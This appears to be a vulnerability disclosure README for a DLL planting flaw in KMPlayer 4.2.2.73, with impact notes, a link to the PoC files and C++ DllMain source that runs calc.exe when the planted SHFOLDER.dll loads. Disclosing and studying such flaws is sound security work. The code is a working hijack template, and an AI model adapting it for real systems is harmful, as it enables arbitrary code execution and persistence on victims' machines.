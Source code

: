 # KMPlayer_Poc

## The name of an affected Product
KMPlayer x32

## Affected version
KMPlayer_4.2.2.73(Latest)

## Product address: 
https://www.kmplayer.com/pc

## Description
SHFOLDER.dll is missing so an attacker can use a malicious dll with same name and can get a admin privileges and also perform a way of persistence on the victim machine.

## Vulnerability type
CWE-427: Uncontrolled Search Path Element

## DLL planting vulnerability type
Current Working Directory (CWD) DLL planting 

## Impact
An attacker could exploit this vulnerability by placing a malicious DLL file on the targeted system. This file will execute when the vulnerable application launches. A successful exploit could allow the attacker to execute arbitrary code on the targeted system with SYSTEM PRIVILEGES as well the attacker can maintain persistence on the target system.

## POC files address
https://drive.google.com/file/d/1bdYaDmtWhnjaHkzv3bZ4PUSMzDJ8JjSV/view?usp=sharing
```bash
kmp32# tree
.
├── KMPlayer_4.2.2.73.exe
├── KMPlayer_poc.mp4
└── SHFOLDER.dll

```

## Poc source code
```C++
// dllmain.cpp
#include "pch.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("calc.exe");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
